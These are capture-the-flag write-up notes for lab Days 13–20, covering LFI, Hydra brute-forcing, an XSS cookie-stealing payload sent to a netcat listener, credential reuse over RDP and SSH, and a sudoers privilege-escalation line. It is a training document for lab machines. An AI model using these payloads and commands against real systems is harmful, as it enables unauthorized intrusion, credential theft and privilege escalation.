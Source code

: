 ## Day 13: Accumulate
-----------------------
+ Found a web server running and hidden path at /retro.
+ Found user creds for wordpress by reading blog posts and comments.
+ Used the same creds to RDP into the PC: `xfreerdp /u:wade /p:parzival /v:$IP`
+ Escalated privilege by leveraging CVE 2019-1388

## Day 14: Unknown Storage
----------------------------
+ Look into s3 bucket: `aws s3 ls s3://advent-bucket-one`
+ Get file: `aws s3 cp s3://advent-bucket-one/file.txt .`

## Day 15: LFI
----------------
+ Ran nmap, found notes on website.
+ Hints to LFI vuln, LFi found as `http://$IP/get-file/../../../etc/shadow`
+ Cracked password using hashcat and rockyou.txt.

## Day 16: File Confusion
---------------------------
+ Extract all files in the directory by using a simple python script.
+ `grep -rl "Version" | wc -l` to count the number of files with 'Version' in them.
+ `grep -rni "password"` to find the file with the password.

## Day 17: Hydra-ha-ha-haa
----------------------------
+ A login page is present on default port.
+ Bruteforcing using hydra: `hydra -l molly -P rockyou.txt $IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"` to obtain web portal password.
+ Bruteforced using hydra to obtain SSH creds: `hydra -l molly -P rockyou.txt $IP -t 4 ssh`

## Day 18: ELF JS
-------------------
+ The page contains an XSS vuln.
+ Open a listener to capture admin cookie: `nc -nlvkp 8000`
+ Payload sent as a forum post: `<script>new Image().src="$IP:8000/stolencookie.php?cookie="+document.cookie;</script>`

## Day 19: Commands
----------------------
+ Executed URL encoded commands at endpoint /api/cmd to obtain user.txt contents.

## Day 20: Cronjob Privilege Escalation
-------------------------------------------
+ Ran an nmap port scan, found SSH on port 4567.
+ Bruteforced into SSH using hydra: `hydra -l sam -P ../rockyou.txt $IP -s 4567 -t 4 ssh`
+ SSHed into the machine and ran linpeas.
+ Found a SUID bit script clearing /tmp files every minute.
+ Added the following line in sudoers file to grant sam superuser privileges: `echo "sam ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`
